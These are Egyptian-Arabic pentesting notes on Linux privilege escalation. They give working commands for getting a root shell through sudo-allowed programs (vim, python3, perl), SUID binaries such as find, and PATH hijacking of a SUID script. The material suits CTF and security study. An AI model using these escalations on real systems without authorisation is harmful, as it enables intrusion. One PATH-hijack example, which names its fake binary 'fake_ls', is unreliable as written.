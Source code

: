 # 🔥 **1. استغلال أوامر sudo (Abusing Sudo Privileges)**

في بعض الأحيان، المستخدم بيكون عنده صلاحية تشغيل أوامر معينة بـ `sudo` من غير كلمة مرور، وده ممكن يكون مدخل للاستغلال.

## 🔹 **1.1 معرفة الأوامر اللي نقدر نشغلها بـ sudo**

أول خطوة إنك تشوف إيه الأوامر اللي تقدر تشغلها بـ `sudo`:

```bash
sudo -l
```

ده هيعرض قائمة بالأوامر المسموح بيها. لو لقيت أمر ممكن تستخدمه لفتح Shell، يبقى عندك طريق للاستغلال.

## 🔹 **1.2 استغلال أوامر فيها ثغرات للتصعيد**

لو مثلا الأمر `vim` موجود في القائمة، تقدر تفتح **Shell بصلاحيات root** كالتالي:

```bash
sudo vim -c '!sh'
```

أو لو `python3` متاح:  

```bash
sudo python3 -c 'import pty; pty.spawn("/bin/bash")'
```

نفس الفكرة مع `perl`:

```bash
sudo perl -e 'exec "/bin/sh";'
```

أوامر تانية زي `find`، `awk`، `tar`، و `zip` ليهم نفس الاستغلالات. ممكن تستخدم موقع **GTFOBins** للبحث عن أي أمر عندك وتشوف استغلاله:  
[https://gtfobins.github.io/](https://gtfobins.github.io/)

### ✅ **الخلاصة بالعامية:**

لو تقدر تشغل أوامر معينة بـ `sudo`، دور على أمر ممكن يفتح لك Shell بصلاحيات **root**. استخدم `sudo -l` وشوف لو فيه حاجة تقدر تستغلها.

---

# 🔥 **2. استغلال ملفات SUID (Abusing SUID Binaries)**

## 🔹 **2.1 البحث عن ملفات SUID**

نستخدم الأمر ده للبحث عن كل الملفات اللي عليها SUID:

```bash
find / -perm -4000 2>/dev/null
```

ده هيجيب كل الملفات اللي بتشتغل بصلاحيات صاحبها (غالبًا root).

## 🔹 **2.2 استغلال ملف SUID بيشغل أوامر**

لو لقيت ملف زيه زي `find` عنده SUID، تقدر تشغله كالتالي:

```bash
/usr/bin/find . -exec /bin/bash -p \;
```

وده هيفتح لك Shell بصلاحيات root.

## 🔹 **2.3 لو ملف SUID بيستدعي أمر غير آمن**

لو عندك ملف `custom_script` وعرفت إنه بيستدعي `ls` مثلًا جواه، تقدر تعمل التالي:

```bash
echo "/bin/sh" > ls
chmod +x ls
export PATH=.:$PATH
/custom_script
```

وده هيشغل Shell بصلاحيات root لإنه بيستخدم `ls` من الـ PATH اللي انت عدلته.

## ✅ **الخلاصة بالعامية:**

لو فيه ملف عليه SUID، جرب تشوف بيعمل إيه، ولو بيشغل أوامر، ممكن تخليه يشغل Shell بصلاحيات root.

---

# 🚀 **خطوات Pentesting عملية لاستغلال sudo و SUID**

## 🔥 **1. استغلال sudo (Privilege Escalation via Sudo)**

### ✅ **الخطوات:**

1. شوف إيه الأوامر اللي تقدر تشغلها بـ `sudo`:
    
    ```bash
     sudo -l
    ```
لو النتيجه طلعت كده 
![[Pasted image 20250315152254.png]]
اعمل الاتي

2. لو لقيت أمر ممكن يستغل، جرب تشغيل Shell:
    
    ```bash
    sudo python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
    
3. لو لقيت أمر بيشغل ملفات، جرب تعمل **Hijacking** للملف اللي بيشغله.

---

## 🔥 **2. استغلال SUID (Privilege Escalation via SUID Binaries)**

### ✅ **الخطوات:**

1. دور على كل ملفات SUID:
    
    ```bash
    find / -perm -4000 2>/dev/null
    ```
    
2. شوف لو فيه أمر معروف عنده SUID، زي `find` أو `vim` أو `bash`:
    
    ```bash
    /usr/bin/find . -exec /bin/bash -p \;
    ```
    
3. لو الملف بيستدعي أمر معين، اعمل **Hijacking** باستخدام PATH Variable:
    
    ```bash
    echo "/bin/sh" > fake_ls
    chmod +x fake_ls
    export PATH=.:$PATH
    /custom_script
    ```
    

---

## 🔥 **الخلاصة العامة بالعامية:**

1. **sudo -l** ده أول حاجة تشوفها، لو تقدر تشغل حاجة بـ sudo بدون باسورد، غالبًا تقدر توصل لـ root.
2. **لو لقيت SUID file**، شوف بيعمل إيه، وجرب تشغله بطرق مختلفة.
3. **لو ملف بيستدعي أوامر خارجية**، حاول تلعب في الـ PATH وتخليه يشغل حاجة انت عاملها بنفسك.

💡 **نصيحة**: لو بتلعب في CTF أو بتعمل **Privilege Escalation**، دايمًا جرب **GTFOBins** و `sudo -l` و `find / -perm -4000` كخطوات أولى. 🚀